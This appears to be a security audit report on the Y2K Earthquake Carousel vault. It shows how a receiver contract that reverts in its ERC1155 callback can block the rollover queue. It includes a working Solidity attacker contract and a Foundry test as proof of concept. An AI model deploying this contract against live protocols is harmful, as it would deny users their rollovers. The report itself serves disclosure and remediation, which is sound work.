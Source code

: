 0xRobocop

medium

# The rolloverQueue can get DoSed due to failure on external call

## Summary

The `_mint()` function invokes the `_doSafeTransferAcceptanceCheck()` function. This function performs a call to the receiver of the minting, the `to` parameter. The rationale of this is to ensure that if the receiver is a contract account, the contract can manage the ERC1155 tokens that it is receiving. This is totally unsafe since now an arbitrary contract have the flow of execution.

During the execution of `mintRollovers()` if the conditions are met, a user deposits gets rollover to the next available `epochId`, this means that new shares (representing the epochId) are minted to the `receiver` and hence the `_mint()` function gets invoked. When the `receiver` have the flow of execution, due to _doSafeTransferAcceptanceCheck(), he can simply revert.

## Vulnerability Detail

See summary.

## Impact

All the entries that are after the attacker entry in the `rolloverQueue` will be DoSed. Since no funds are lost, but the functionality of the protocol is affected in an easy way, I consider this a medium severity.

## Proof of concept

Create the next contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface Carousel2 {
  function deposit(uint256 id, uint256 assets, address receiver) external;
  function mintDepositInQueue(uint256 epochId, uint256 operations) external;
  function enlistInRollover(uint256 epochId, uint256 assets, address receiver) external;
  function balanceOf(address account, uint256 id) external returns(uint256);
}

interface ERC202 {
  function balanceOf(address account) external returns(uint256);
  function approve(address spender, uint256 amount) external returns(bool);
}

contract BreakRolloverQueue {

  Carousel2 public collateralVault;
  Carousel2 public premiumVault;

  ERC202 public underlyingAsset;

  bool public mintedShares;

  constructor(address _collateralVault, address _premiumVault, address _underlyingAsset) {
    collateralVault = Carousel2(_collateralVault);
    premiumVault = Carousel2(_premiumVault);

    underlyingAsset = ERC202(_underlyingAsset);
  }

  function depositToCollateralVault(uint256 epochId) external {
    uint256 balance = underlyingAsset.balanceOf(address(this));
    
    underlyingAsset.approve(address(collateralVault), balance);

    collateralVault.deposit(epochId, underlyingAsset.balanceOf(address(this)), address(this));

    mintedShares = true;
  }

  function enterRolloverQueue(uint256 epochId) external {
    uint256 balance = collateralVault.balanceOf(address(this), epochId);

    collateralVault.enlistInRollover(epochId, balance, address(this));
  }

  function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public returns (bytes4) {

      if(!mintedShares) {
        return this.onERC1155Received.selector;
      }

      revert();
        
    }
}

```

Then create a test on the `EndToEndCaraouselTest.t.sol` file.

1. Import the attacker contract: `import "../../../src/attacker/BreakRolloverQueue.sol";`
2. Add to the state variables `BreakRolloverQueue public breakRolloverQueueContract;`
3. Add at the end of the `setUp()` function:
```solidity
breakRolloverQueueContract = new BreakRolloverQueue(
            collateral,
            premium,
            UNDERLYING
        );

deal(UNDERLYING, address(breakRolloverQueueContract), 1 ether, true);
```
4. Add the following function test:
```solidity
function testBreakingRolloverQueue() public {
        // Attacker deposit to epochId and enters the rollover queue
        vm.warp(begin - 1 days);
 
        breakRolloverQueueContract.depositToCollateralVault(epochId);
        breakRolloverQueueContract.enterRolloverQueue(epochId);

        // USER buys some insurance
        vm.startPrank(USER);

        vm.warp(begin - 1 days);

        IERC20(UNDERLYING).approve(premium, 5 ether);
        Carousel(premium).deposit(epochId, 5 ether, USER);
        
        vm.stopPrank();

        // USER 2 deposit into collateral vault and enlist to rollover queue
        vm.startPrank(USER2);

        vm.warp(begin - 1 days);

        IERC20(UNDERLYING).approve(collateral, 10 ether);
        Carousel(collateral).deposit(epochId, 10 ether, USER2);
        Carousel(collateral).enlistInRollover(epochId, 9 ether, USER2);

        vm.stopPrank();

        // Attacker and USER2 are in the rollover queue
        assertEq(Carousel(collateral).getRolloverQueueLenght(), 2);

        //warp to end of epoch
        vm.warp(end + 1 days);

        // trigger end epoch
        // Collateral vault wins 
        controller.triggerEndEpoch(marketId, epochId);

        // mintRollovers() will fail due the attacker reverting the transaction.
        vm.expectRevert();
        Carousel(collateral).mintRollovers(nextEpochId, 2);
    }
```
5. Run `forge test --match-contract EndToEndCarouselTest --match-test testBreakingRolloverQueue`

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L536

## Tool used

Manual Review

## Recommendation

Remove `_doSafeTransferAcceptanceCheck()` from `_mint()`.
